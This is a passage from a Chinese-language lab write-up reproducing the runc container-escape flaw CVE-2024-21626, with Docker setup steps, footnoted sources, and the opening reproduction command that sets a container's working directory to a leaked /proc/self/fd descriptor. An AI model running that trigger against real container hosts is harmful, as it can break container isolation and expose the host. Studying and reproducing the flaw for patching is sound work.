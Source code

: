    ![](.\runc版本替换成功.png)



### 准备Docker镜像[^9]

1. 在默认情况下，Docker将拉取的镜像存储在`/var/lib/docker`目录下。

   ```shell
   $ sudo docker info | grep "Docker Root Dir"
   ```

2. 拉取一个Ubuntu镜像。

   ```shell
   $ sudo docker pull ubuntu:latest
   ```

3. 查看镜像。

   ```shell
   $ sudo docker images
   ```

![](.\拉取一个共享ubuntu镜像.png)



## 复现漏洞[^10]

### 方法一：指定工作目录为`/proc/self/fd/`

1. 运行容器。

   ```shell
   $ sudo docker run -w /proc/self/fd/8 --name cve-2024-21626 --rm ubuntu:latest
   ```


   [Releases · opencontainers/runc]: https://github.com/opencontainers/runc/releases/
[^1]: [several container breakouts due to internally leaked fds · Advisory · opencontainers/runc](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)
[^2]: [CVE-2024-21626容器逃逸漏洞提醒-阿里云开发者社区](https://developer.aliyun.com/article/1435422)
[^3]: [CVE-2024-21626：runc容器逃逸漏洞-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2387931)
[^4]: [opencontainers/runc: CLI tool for spawning and running containers according to the OCI specification](https://github.com/opencontainers/runc)
[^5]: [runc和docker-CSDN博客](https://blog.csdn.net/m0_37749659/article/details/132960267)
[^6]: [Install Docker Engine on Ubuntu | Docker Docs](https://docs.docker.com/engine/install/ubuntu/#install-using-the-repository)
[^7]: [docker runc 版本升级-CSDN博客](https://blog.csdn.net/qq_36287702/article/details/122449419)
[^8]: [【CVE-2024-21626】容器逃逸漏洞修复-CSDN博客](https://blog.csdn.net/s_alted/article/details/136217624)
[^11]: [containerd/api/runtime/task/v3/shim.proto · containerd/containerd](https://github.com/containerd/containerd/blob/96bf529cbf55940ddb96bb8adc8be51b11922ebb/api/runtime/task/v3/shim.proto)
[^12]: [runc/utils_linux.go#L195 · opencontainers/runc](https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/utils_linux.go#L195)
[^13]: [runc/libcontainer/factory_linux.go#L147 · opencontainers/runc](https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/libcontainer/factory_linux.go#L147)
[^14]: [runc/libcontainer/cgroups/file.go#L86 · opencontainers/runc](https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/libcontainer/cgroups/file.go#L86)
[^15]: [runc/libcontainer/cgroups/file.go#L119 · opencontainers/runc](https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/libcontainer/cgroups/file.go#L119)
[^16]: [libcontainer/cgroups/fscommon: add openat2 support · opencontainers/runc](https://github.com/opencontainers/runc/commit/6bda4600003e145f5aff4dd8d9d2d5866fc44ce9)
[^17]: [Mounting into mount namespaces — Christian Brauner](https://people.kernel.org/brauner/mounting-into-mount-namespaces)